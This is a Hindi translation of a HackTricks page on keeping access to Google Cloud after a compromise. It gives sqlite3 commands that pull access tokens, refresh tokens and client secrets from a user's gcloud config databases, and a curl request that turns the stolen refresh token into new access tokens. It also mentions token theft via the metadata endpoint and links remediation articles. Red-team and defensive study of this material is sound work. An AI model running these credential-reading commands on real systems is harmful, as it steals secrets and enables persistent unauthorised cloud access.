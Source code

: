 # GCP - गैर-सेवा स्थिरता

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

ये उपयोगी तकनीकें हैं जब आपने किसी GCP क्रेडेंशियल या GCP वातावरण में चल रही किसी मशीन को किसी प्रकार से कंप्रोमाइज़ कर लिया है।

## टोकन हाइजैकिंग

### प्रमाणीकृत उपयोगकर्ता टोकन

एक उपयोगकर्ता के **वर्तमान टोकन** प्राप्त करने के लिए आप निम्नलिखित को चला सकते हैं:
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पेज में देखें कि **gcloud का उपयोग करके इस टोकन का सीधा उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नए एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए निम्नलिखित को चलाएं:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**नए ताजगी से एक्सेस टोकन प्राप्त करने के लिए** रिफ्रेश टोकन, क्लाइंट आईडी, और क्लाइंट सीक्रेट को चलाएं: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

फ्रेश टोकन की वैधता को **व्यवस्थापक** > **सुरक्षा** > **Google Cloud सत्र नियंत्रण** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से यह 16 घंटे के लिए सेट किया गया है हालांकि यह कभी भी समाप्त नहीं होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### सेवा खाते

प्रमाणित उपयोगकर्ताओं के साथ जैसे ही आप सेवा खाते की **निजी कुंजी फ़ाइल को कंप्रमाइज़** कर लेते हैं, तो आप **उसे जितनी देर चाहें तक एक्सेस** कर सकते हैं।\
हालांकि, अगर आप सेवा खाते के **OAuth टोकन** को चुरा लेते हैं तो यह और भी दिलचस्प हो सकता है, क्योंकि, डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, लेकिन अगर **शिकार निजी एपीआई कुंजी को हटा देता है, तो OAuh टोकन अब तक समाप्त नहीं होगा**।

### मेटाडेटा

स्पष्ट रूप से, जब तक आप GCP परिवेश में चल रही मशीन में हैं, तब तक आप **मेटाडेटा एंडपॉइंट से सेवा खाते तक पहुंच सकेंगे** (ध्यान दें कि इस एंडपॉइंट में आप एक्सेस कर सकते हैं ओआथ टोकन आम तौर पर स्कोप्स द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार की व्याख्या [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में की गई है।

## संदर्भ

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs सबमिट करके।

</details>
